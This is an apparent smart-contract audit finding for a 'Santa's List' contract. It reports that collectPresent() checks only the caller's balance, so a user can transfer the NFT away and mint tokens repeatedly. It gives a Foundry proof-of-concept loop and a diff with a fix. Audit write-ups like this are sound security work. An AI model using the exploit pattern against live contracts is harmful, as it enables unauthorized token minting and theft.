 ## Summary

Insufficient check for presents received `balanceOf(msg.sender) > 0)` allows infinite ERC20 printing from attacker with `SantasList::Status.EXTRA_NICE`

## Vulnerability Details

The absence of a recording mechanism for present receivers and relying only on `balanceOf(msg.sender) > 0` allows user with `EXTRA_NICE` status to move received tokens to another address and continue to loop through the `collectPresent()` function as much as block gas limit allows.
    
## Impact

Initially, after Santa user gives EXTRA_NICE status to the user, user is able to pass

```javascript
if (balanceOf(msg.sender) > 0) {revert ...}

...

 s_theListCheckedOnce[msg.sender] == Status.EXTRA_NICE
&& s_theListCheckedTwice[msg.sender] == Status.EXTRA_NICE
```
requirements and mint fungible and non-fungible tokens       

  ```javascript
_mintAndIncrement();
 i_santaToken.mint(msg.sender);
  ```

Then to enter `collectPresent()` again and get around `balanceOf(msg.sender) > 0)` user can transfer NFT to another address. 
        
Foundry tests will look like this:

```javascript
  function test_mintInfiniteTokens() public {
    vm.startPrank(santa);
    santasList.checkList(user, SantasList.Status.EXTRA_NICE);
    santasList.checkTwice(user, SantasList.Status.EXTRA_NICE);
    vm.stopPrank();

    vm.startPrank(user);
    for (uint256 i; i < 69; i++) {
      santasList.collectPresent();
      santasList.transferFrom(user, userBag, i);
    }
    assertEq(santaToken.balanceOf(user), 69e18);

    vm.stopPrank();
  }
```

Full test on [GitHub repo fork](https://github.com/algobotishere/2023-11-Santas-List/blob/98a91daf2046b728b8e7021526e7e9733f76e15f/test/unit/SantaHacks.t.sol#L53)

## Tools Used

Foundry

## Recommendations

Introduce a list of persons that already received the present:

```diff
+     mapping(address => bool) public presentsReceived;

  function collectPresent() external {
        if (block.timestamp < CHRISTMAS_2023_BLOCK_TIME) {
            revert SantasList__NotChristmasYet();
        }
-        if (balanceOf(msg.sender) > 0) {
+       if(presentsReceived[msg.sender])
            revert SantasList__AlreadyCollected();
        }
        if (s_theListCheckedOnce[msg.sender] == Status.NICE && s_theListCheckedTwice[msg.sender] == Status.NICE) {
+        presentsReceived[msg.sender] = true;
            _mintAndIncrement();
            return;
        } else if (
            s_theListCheckedOnce[msg.sender] == Status.EXTRA_NICE
                && s_theListCheckedTwice[msg.sender] == Status.EXTRA_NICE
        ) {
+        presentsReceived[msg.sender] = true;
            _mintAndIncrement();
            i_santaToken.mint(msg.sender);
            return;
        }
        revert SantasList__NotNice();
    }
```


